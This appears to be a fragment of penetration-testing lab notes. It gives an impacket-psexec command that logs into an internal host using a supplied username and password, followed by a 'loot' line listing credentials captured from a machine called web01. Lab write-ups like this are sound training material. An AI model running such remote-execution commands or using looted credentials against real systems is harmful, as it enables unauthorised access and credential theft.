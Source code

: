 
```
impacket-psexec leon:'rabbit:)'@172.16.209.10
```

loot:
```c
web01: offsec/century62hisan51
```
